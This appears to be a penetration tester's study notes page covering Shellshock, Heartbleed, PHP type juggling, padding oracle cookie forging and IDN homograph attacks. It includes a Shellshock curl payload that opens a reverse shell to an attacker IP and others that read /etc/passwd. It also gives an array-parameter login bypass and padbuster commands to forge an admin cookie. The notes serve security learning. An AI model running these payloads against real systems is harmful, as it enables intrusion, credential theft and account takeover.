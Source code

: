 ```yaml
---
title: Notes | Others
author: Zeropio
date: 2022-04-25
categories: [Notes, Vulnerabilities]
tags: [shellshock, poa, deserialization, idor]
permalink: /notes/vulnerabilities/others
---
```



# ShellShock Attack
This vulnerability in Bash allows remote code execution without confirmation. A series of random characters, () { :; }; , confuses Bash because it doesn't know what to do with them, so by default, it executes the code after it.

We can manipulate the **User-agent** to execute it, for example:
```console
$ curl -H "User-Agent: () { :; }; /bin/bash -i >& /dev/tcp/<IP>/443 0>&1" http://example.com/
```

Other attacks can be:
```console
$ curl -A '() { :;}; echo "Content-Type: text/plain"; echo; /bin/cat /etc/passwd' http://example.com/
$ curl -A '() { :;}; echo "Content-Type: text/plain"; echo; /bin/ls /' http://example.com/
```

Sometimes, this attack can happen in the `/cgi-bin/<SCRIPT>`.

---

# Heartbleed

With this vulnerability we can retrieve some critical information about the target. We can test this vulnerability with several ways:
```console
$ sslscan <HOST> <PORT>
$ sslyze <HOST>
$ nmap <HOST> -p<PORT> --script=ssl-heartbleed.nse
```

There are many scripts to exploit, for example [this one](https://raw.githubusercontent.com/ctfs/write-ups-2014/master/plaid-ctf-2014/heartbleed/heartbleed.py).

---

# Deserialization Attacks
**Serialization** is the process of turning some object into a data format that can be restored later. People often serialize objects in order to save them to storage, or to send as part of communications.
**Deserialization** is the reverse of that process, taking data structured from some format, and rebuilding it into an object. Today, the most popular data format for serializing data is JSON. Before that, it was XML.

---

# Type Juggling
With **Type Juggling** during the comparison of variables of different types, PHP will first convert them to a common, comparable type.

For example we can send data like this:
```console
> curl -s -X POST --data 'usuario=admin&password=1' http://[ip] | html2text
```
We will probably get an error, but if we modify the content:
```console
> curl -s -X POST --data 'usuario=admin&password[]=1' http://[ip] | html2text
```
We can log in.

---

# Padding Oracle Attack

A padding oracle attack is an attack which uses the padding validation of a cryptographic message to decrypt the ciphertext.

## Padbuster
A padding oracle attack is an attack which uses the padding validation of a cryptographic message to decrypt the ciphertext.

We can use **padbuster** to decode a cookie and try to do a cookie hijacking:
```console
$ padbuster [url] 8 -cookie "auth=[cookie]" -encoding 0
```

If it is vulnerable, we can encrypt new cookies. For example if the output is 'user=youruser' we can try:
```console
$ padbuster [url] 8 -cookie "auth=[cookie]" -encoding 0 -plaintext "user=admin"
```

Another way to recretate this if we can register a new user and login, we can create a user like **admin=**. This will create an user with the same privilegies as the user admin.

## Bit Flipper Attack / BurpSuite
Another way is to register a new user like **bdmin**. Send the request to the **Intruder**.
Then we can use the following payload: *type: Bit flipper, Format of original data: Literal value, URL encode: disable*

---

# IDN homographic attack
The internationalized domain name homograph attack is a way a malicious party may deceive computer users about what remote system they are communicating with, by exploiting the fact that many different characters look alike. For example, a regular user of example.com may be lured to click a link where the Latin character "a" is replaced with the Cyrillic character "а". This kind of spoofing attack is also known as script spoofing.
